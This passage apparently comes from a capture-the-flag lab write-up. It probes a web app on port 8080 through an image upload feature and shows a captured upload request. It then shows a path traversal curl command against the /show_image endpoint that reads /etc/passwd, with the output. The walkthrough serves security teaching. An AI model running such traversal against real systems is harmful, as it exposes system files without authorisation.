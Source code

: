 ## Web

We'll begin by exploring the HTTP server on port **8080** since web services are often vulnerable.
Let's also route our requests through our local [BurpSuite](https://portswigger.net/burp) proxy or just use BurpSuite's built-in browser.

![Home page](homepage-notes.png)

The home page introduces a few features including the ability to upload files.
Let's check out that page since file uploads are a slippery slope when it comes to security.

![Upload page](upload-page.png)

We'll try uploading a file in our browser session while we capture the request with BurpSuite.

```http
POST /upload HTTP/1.1
Host: 10.10.11.204:8080
Content-Length: 220
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAPgIHu4nfmqDyyE2
User-Agent: BurpSuite
Accept: */*

------WebKitFormBoundaryAPgIHu4nfmqDyyE2
Content-Disposition: form-data; name="file"; filename="demo.txt"
Content-Type: text/plain

This is a standard UTF-8 text file...

------WebKitFormBoundaryAPgIHu4nfmqDyyE2--

```
{:.nolineno}

![Upload fail](upload-fail.png)

The response indicates that the form exclusively accepts image files, so we'll try uploading an image.

![Upload success](upload-success.png)

The upload is successful plus we get to view the image dynamically at the `/show_image`{:.filepath} endpoint.

![Show image endpoint](show-image.png)

### File Disclosure

It appears that the image file is loaded dynamically from the filesystem using the _img_ parameter.
Let's see if we can read any files outside of our working directory like `/etc/passwd`{:.filepath}.

```bash
# bryan@red_team (bash)
curl "http://$rhost:8080/show_image?img=../../../../../../etc/passwd"
```
{:.nolineno}
>
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
